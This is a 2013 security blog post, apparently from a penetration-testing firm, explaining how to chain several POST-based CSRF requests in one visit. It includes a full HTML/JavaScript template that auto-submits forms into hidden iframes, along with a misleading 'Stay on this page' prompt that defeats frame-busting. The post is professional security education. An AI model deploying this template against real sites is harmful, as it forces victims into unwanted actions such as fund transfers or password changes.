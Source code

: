 title: Multi-POST Cross-Site Request Forgery
date: 2013-07-17
categories: [application security]

A co-worker of mine, [Ethan Robish](https://twitter.com/EthanRobish), and I encountered several complicated CSRF situations for which he came up with a brilliant solution. A solution worthy of recording here for future reference.

Let's say you encounter a situation where an attack requires multiple CSRFs in order to conduct some sort of undesirable action i.e. transfer funds between accounts or manipulate a forgot password system. This is easily accomplished if the target accepts GET requests. The attacker can set up a couple of dummy images and launch multiple CSRF requests with ease. However, what if the target application only accepts POST requests? While this complicates things, the attack can still be accomplished as long as the attacker doesn't mind engaging the target user once for each POST request. But what if the attacker has one opportunity to engage the target user? This is the situation that Ethan and I were faced with.

Rather than blindly explain the technique, let's consider the following code that Ethan provides as a template for the attack:

``` html
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01 Transitional//EN" "http://www.w3.org/TR/html4/loose.dtd">
<html>
    <head>
        <script language="javascript">

            window.onload = function() {
                document.getElementById("csrfForm1").submit();
                // to make 2nd form wait for 1st, put the following in a function and use as a callback for a new timer
                document.getElementById("csrfForm2").submit();
            }

            // defeat frame busters
            window.onbeforeunload = function() {
                return "Please click 'Stay on this page' to allow it to finish loading.";
            }

        </script>
    </head>
    <body>

        <form id="csrfForm1" action=<!-- fill in POST URL here --> method="POST" target="csrfIframe1">
            <input type="hidden" name="" value="" />
            <!-- fill in form data here -->
        </form>

        <form id="csrfForm2" action=<!-- fill in POST URL here --> method="POST" target="csrfIframe2">
            <!-- fill in form data here -->
        </form>

        <!-- hidden iframes -->
        <iframe style="display: hidden" height="0" width="0" frameborder="0" name="csrfIframe1"></iframe>
        <iframe style="display: hidden" height="0" width="0" frameborder="0" name="csrfIframe2"></iframe>

    </body>
</html>
```

Let's break it down.

Basically, we need to POST multiple forms. In order to do this without user interaction, we need JavaScript. Nothing new at this point. Where it gets tricky is that upon submitting a form via POST, whether we use JavaScript or a Submit button, the user will be taken to the resulting content. In the case that we need to submit multiple forms, this will prevent any form but the first from submitting. That's a show stopper. The idea here is that we want to use JavaScript to submit all of the forms necessary to carry out the attack without leaving the current page.

In the template code scenario we need to submit two forms to carry out the attack, so we place 2 forms on the page: "csrfForm1" and "csrfForm2". The inputs in the template are blank, but this is where you would put each of the parameters required for the form. Inputs with a type of "hidden" will be most effective. Also, there's no need for a "submit" input type, as we will be using JavaScript to do so.

Next, look at the "head" of the template. We write some JavaScript that will submit both forms upon the page loading with the "onload" event. But wait a second. Didn't we just say that we can't submit two forms on one page? Yes, we did. Take another look in the "body" of the template. You'll notice that there are two iframes at the bottom named "csrfIframe1" and "csrfIframe2". Then look at the forms again and notice that their "target" attributes are set for the respective iframes. This is the trick. By submitting the forms within the target of multiple iframes, we maintain control over the primary page and can continue to submit forms on behalf of the target. Totally cool, right? Also, by sizing the iframe to be invisible, the user continues to see the content of the current page unchanged as the attack plays out.

While this was good enough to solve my problem, Ethan ran into another issue in his situation. His target application had a JavaScript frame busting countermeasure that prevented this attack by hijacking any window that attempted to frame the application. The frame busting JavaScript was similar to this:

``` html
<script type="text/javascript">
if (top != self) {
    top.location = self.location;
}
</script>
```

As the above frame busting JavaScript hijacks the top window, it triggers the top window's "unload" event. Ethan discovered that he could use the "onbeforeunload" event in the top window to ask the user if they wanted to stay on the page. If the user elected to stay, then the unloading of the page would halt, the application would to load in the frame as normal, and the next form would POST. I don't know about you, but when I'm on a page that all the sudden tries to redirect somewhere else, I click the "Stay on this page" button. The result of Ethan's counter-countermeasure is that the attack will ask the user to stay on the page for each form that POSTs through an iframe whose target application is protected by the frame busting JavaScript. As long as the user clicks "Stay on this page", the attack resumes. Pretty handy stuff.

And that, my friends, is how we do multi-POST CSRF at [Black Hills Information Security ](http://www.blackhillsinfosec.com). Enjoy the template and please share your success stories and improvements with us.

### Additional References

This is not the first disclosure of multi-POST CSRF. Below is a list of links to similar articles and tools which assist in executing the above attack. We will continue to update this list as we come across additional resources. Enjoy!

- Articles
    - [Two-stage CSRF attacks](http://ceriksen.com/2012/09/29/two-stage-csrf-attacks/)
- Tools
    - [OWASP CSRFTester Project](https://www.owasp.org/index.php/Category:OWASP_CSRFTester_Project)
